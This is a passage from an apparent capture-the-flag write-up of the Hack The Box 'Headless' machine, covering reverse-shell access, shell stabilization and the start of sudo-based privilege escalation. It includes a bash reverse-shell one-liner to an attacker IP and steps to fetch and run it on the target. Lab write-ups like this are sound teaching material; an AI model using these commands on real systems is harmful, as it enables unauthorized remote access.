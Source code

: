 But it is not the good way. It'd be better if we get a reverse shell first because gaining a reverse shell is the ideal thing in pentesting. So lets fire up a netcat listener on port 1234 and upload a reverse shell on victim machine.

step 1 => build an executable file with payload to get reverse shell.
```bash
echo "bash -i >& /dev/tcp/10.10.14.116/1234 0>&1;" > reverse_shell.sh
chmod +x reverse_shell.sh
```
step 2 => start the python server with `python -m http.server` and then use `wget http://<ipaddress>port/`to upload reverse shell on victim's machine.
![upload reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/upload_reverseshell.jpg)

Now since the reverse shell is uploaded, lets run the script using `bash reverse_shell.sh` command. We got the reverse shell. Now again exploring through the file system we can easily acquire the user flag.
![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/user_flag.jpg)


## Privilege Escalation

As we see, we have some got some broken shell.
Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Checking for what commands can be run by out user with sudo previlege using `sudo -l` command:
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```
So, divr can run /usr/bin/syscheck with root previlege. Let's try to exploit this thing.

when we cat out /usr/bin/syscheck, we got that some initdb.sh file is getting executed.
```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

```